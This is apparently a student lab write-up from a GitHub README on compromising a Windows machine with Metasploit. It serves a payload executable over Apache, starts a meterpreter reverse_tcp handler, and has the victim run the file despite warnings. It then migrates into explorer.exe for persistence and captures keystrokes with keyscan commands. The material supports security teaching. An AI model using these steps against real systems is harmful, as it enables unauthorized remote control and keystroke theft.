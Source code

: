 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

![bb](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/ffcd03a2-ac39-4ca8-a8a8-5380be19879e)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/95c87b35-1e6a-4932-aad1-590cb70b7b47)

Start apache server sudo systemctl apache2 start and Check the status of apache2

![kk](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/59ad7278-e928-4149-868c-2f3a2517e7c9)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set 
PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![ss](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/8c1b5af3-b56b-4c28-87d7-7efc12fda73c)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![uu](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/045f9e75-82e4-4b84-87f8-4a4eae8a3835)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![hh](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/e1703da8-a7a3-4fdd-ab16-1bd0dba1cb27)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![yy](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/01988ec5-d4d0-4a05-940e-7926d90a9f53)

keyscan_dump Shows the keystrokes captured so far

![jj](https://github.com/Sharmilasha/Compromising-windows-using-Metasploit/assets/94506182/f17b5851-101c-454f-804e-3c4c9db897d2)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
